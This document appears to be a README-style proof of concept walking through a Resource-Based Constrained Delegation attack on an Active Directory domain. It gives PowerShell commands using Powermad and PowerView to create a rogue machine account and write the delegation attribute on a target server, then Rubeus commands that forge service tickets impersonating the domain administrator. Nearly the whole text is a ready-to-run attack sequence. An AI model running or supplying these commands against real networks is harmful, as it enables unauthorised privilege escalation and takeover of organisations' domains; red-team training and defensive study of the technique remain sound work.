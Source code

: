 **IMPORTANT NOTE:** ALL THIS PROCESS MUST BE PERFORMED FROM A POWERSHELL CONSOLE

(RCBD stands for Resource-Based Constrained Delegation)

1st In order to perform the attack, we already need a computer configured with RBCD(with the msds-allowedtoactonbehalfofotheridentity writed), or we could abuse an ACL like GenericWrite in order to write the msds-allowedtoactonbehalfofotheridentity property.(in this PoC it the backend machine will be APPSRV01, the user that have write perssions will be contoso\trike and the fronted SPN will be contoso\mycomputer$)

2nd Create a new computer machine object that will have an SPN assigned to it; creation of the machine with powermad 

`New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force);`

Checking the SPN for that computer with powerview:

`Get-DomainComputer -Identity myComputer`

3rd We must convert the SID of our newly-created computer object to the correct format in order to proceed with the attack:
	
 1. `$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid`	
 	
 2. `$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"`
	
 3. `$SDbytes = New-Object byte[] ($SD.BinaryLength)`
	
 4. `$SD.GetBinaryForm($SDbytes,0)`
	
 5. `Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
	
4th After the SecurityDescriptor has been converted to the correct format, we can use Get-DomainComputer to obtain a handle to the computer object for APPSRV01 and then pipe that into Set-DomainObject , which can update properties by specifying them with -Set options:

VERIFICATION THAT WE SUCCESSFULLY WROTE THE "msds-allowedtoactonbehalfofotheridentity" correctly:
	
 1. `$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity`
	
 2. `$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0`
	
 3. `$Descriptor.DiscretionaryAcl`   -> this will return us an SID in the SecurityIdentifier field, that we must convert
	
 4. `ConvertFrom-SID sid_number`  -> this must return us with: contoso\myComputer$
	
NOW WE WILL REQUEST A TGS FOR THE SPN: "CIFS/appsrv01.prod.corp1.com" USING RUBEUS AND THE S4USELF AND S4UPROXY(this part is very similar to constrained delegation)
	
 1. `.\Rubeus.exe hash /password:h4x`
	
 2. `.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.contoso.com /ptt`

(the msdsspn parameter can be somewhat tricky, so do you can try various SPNs, for example if CIFS/appsrv01.contoso.com didn't worked, you can try CIFS/appsrv01 or something like that). 
